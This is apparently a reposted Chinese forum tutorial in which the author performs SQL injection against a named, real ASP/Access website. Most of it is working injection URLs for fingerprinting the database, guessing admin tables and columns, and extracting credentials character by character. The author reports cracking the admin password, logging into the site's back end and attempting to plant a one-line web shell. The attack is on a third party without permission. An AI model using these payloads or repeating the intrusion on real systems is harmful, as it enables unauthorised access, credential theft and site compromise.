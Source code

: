 # Access sql 注入实例---只为共同探讨、学习，共同进步，提高所有人的安全意识

> 原文：[`www.pediy.com/kssd/pediy12/114845.html`](https://www.pediy.com/kssd/pediy12/114845.html)

Sql 注入实例 作者：ssLong 
由于学习需要，因此学习了关于拿站相关知识，当然我刚刚起步，今天主要是学习 sql 注入，并且找了一个具体的实例，来说明 sql 注入的整个流程。
一下为本人学习之后总结的，不对之处还请各位高人批评、指教,感激不尽。

简单说一下，本菜鸟对 sql 注入的理解：sql 注入就是攻击者精心构造的 sql 语句，可以被远程服务器的数据库正常执行，完成一些特定的功能，达到攻击的目的。其主要原因，网站制造者的安全意识不够，没有考虑网站浏览者提交特殊的，非法参数的情况，从而产生了 sql 注入。同时，网站制作者没有对网站出错时，进行处理，直接将很多有用的信息提供给了攻击者，这样也降低了攻击者攻击的门槛。希望引起网站制作者的注意。不知道在这场，魔与道还是道与魔的对抗中谁能获胜？谁能笑到最后？

目标网站为：http://www.shengqiguanli.com/jiao_lian.asp?id=45（随便查找，没有其它意思，只是测试而已，不做任何妨碍网站正常使用的事，如有人进行攻击行为，本人概不负责。真正的黑客是不会这么多的，正所谓点到为止）

1．  取消 IE 的  显示友好 Http 错误信息，因为我们很多时候，都要利用网站出错显示的错误信息，得到网站本身信息，这些信息对于我们来说非常有用。

2.判断注入点 一般一个网站的注入点主要是存在浏览新闻，注册时输入信息框，搜索框等需要和数据库交互的页面中。
我们的目标：
http://www.shengqiguanli.com/jiao_lian.asp?id=45
检测方法一般是经典的三步走：

第一步：在网址后面加入 单引号’ 即
http://www.shengqiguanli.com/jiao_lian.asp?id=45'  有错
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and 1=1 正常返回
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and 1=2 异常返回 
一般可以判断此 url 可以被 sql 注入。
3.判断数据库类型 因为当前各种网址使用的语言和数据库各不相同，比如 Asp+access 、 Asp+sql server 、php+ my sql /Ms sql 、 Jsp + Oracle / Mysql 、Aspx + Access /Ms Sql 等等。而各种数据库对应的 sql 语句各不相同，因此首先需要确定数据库类型。

一般方法是：
1）  http://www.shengqiguanli.com/jiao_lian.asp?id=45 and user >0 

根据错误信息判断数据库类型：
表示为 Access 数据库
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e10' 
[Microsoft][ODBC Microsoft Access Driver] 参数不足，期待是 1。 
/jiao_lian.asp，行 43 
2）  http://www.shengqiguanli.com/jiao_lian.asp?id=45 and （select count(*) from sysobjects）>0
3）  http://www.shengqiguanli.com/jiao_lian.asp?id=45 and （select count(*) from msysobjects）>0
注释：user 是 sql server 的内置变量 是 nvarchar 如将与 int 比较 如果是 sql server 会直接报错，是 Access 会提示没有改变量
   Sysobjects 是 sql server 的数据库内置表，在 web 环境下，可以被正常访问
   Msysobjects 是 Access 的数据库内置表 在 web 环境下，不能正常访问。
4.这个是个分水岭的步骤，因为是 Access 数据库，小弟初来咋到，不知道 Access 数据库时，有什么好的方法，只能走常规方法，猜！希望有高人直接。

1）  首先猜表
http://www.shengqiguanli.com/jiao_lian.asp?id=45  and (select count(*) from Admin)>=0 判断是否有 Admin 表 返回正常则存在 返回异常则不存在 等同下面的语句
http://www.shengqiguanli.com/jiao_lian.asp?id=45  and exists(select * from Admin)
非常幸运 这个网站按常理出牌了 返回的是正常页面，那么就说明有这个表，这个表中一般都是管理员用户名和密码，我们继续猜。当然如果返回异常，可以继续猜，一般的工具都是使用字典的，穷尽常见的表组成的字典，如果没有匹配的，则认为攻击失败。因此，给数据表已可以有效防止 sql 注入，但不是最好的方法。
2）  猜字段
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select count(username) from  Admin)>=0
判断是否正常，正常说明存在 username 字段，我们的是正常的 同理：
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select count(password) from  Admin)>=0
很容易想到 这个两个就是用户名和密码字段，已经足够了，继续猜
3)  确定长度
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(username) from  Admin)>10
一般用户名不会加密的所以不会很多，先判断是否在 10 以内。
发现返回异常，说明小于等于 10
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(username) from  Admin)>5
返回还是异常 说明<=5
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(username) from  Admin)>3 返回正常 说明大于 3

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(username) from  Admin)>4 返回正常 说明大于 4

所以可以确定长度是 5

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(password) from  Admin)>32 一般网站密码是使用 md5 加密的所以 一般都是 32 或者 16 当然也有例外，所以先判断是否在 32 以内
返回异常 说明<=32
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(password) from  Admin)>16 返回正常 说明大于 16

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(password) from  Admin)>24 返回正常 说明大于 24
基本上可以确定是 32 了 我们直接测试 32 吧
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 len(password) from  Admin)=32 返回正常 说明密码是使用 md5 加密的 32 位

4）  继续猜每一位
http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 asc(mid(username,1,1)) from  Admin)>63 利用 asc 取一位猜测 其值是否大于 ascii 的中间值 返回正常 继续猜

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 asc(mid(username,1,1)) from  Admin)>94 利用二分法取 ascii (126+63)/2=94 返回正常 继续猜

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 asc(mid(username,1,1)) from  Admin)>110  返回异常 说明小于 110

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 asc(mid(username,1,1)) from  Admin)>102 异常

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 asc(mid(username,1,1)) from  Admin)>98 异常

http://www.shengqiguanli.com/jiao_lian.asp?id=45 and (select top 1 asc(mid(username,1,1)) from  Admin)>96 返回正常 

最终确定第一个字符为 97 转换为字符是 a.

同理 就可以猜到 2~5 位，和 password 的所有位，知道原理 其它的都一样。我们就直接使用 啊 D 这个专业工具吧，得到用户名：admin 密码：7fef6171469e80d32c0559f88b377245
直接去 http://md5.org.cn/ 解密 看看人品:还不错：名为 admin888

继续使用啊 D 查找网站后台，登录吧，当然啊 D 也是猜测后台，不是使用爬的方法，但是也很有效，还是那句话，太多了常理出牌了，我写的网站一般就不能扫出来，我都记不住后台页面，呵呵！见笑了，英语太差！
http://www.shengqiguanli.com/admin/index.asp 后台 登录 成功。

发现后台有个可以发布新闻的地方 将一句话木马 插入进去，返回插入成功，但是使用客户端却不能建立文件，求高人帮助说是没有写权限 ，晕了一次，继续

真是遗憾时间到了 没有找到可以利用的地方，先这样吧！只能帮帮管理员管理一下信息了..当然最好不要这样做 呵呵 点到为止嘛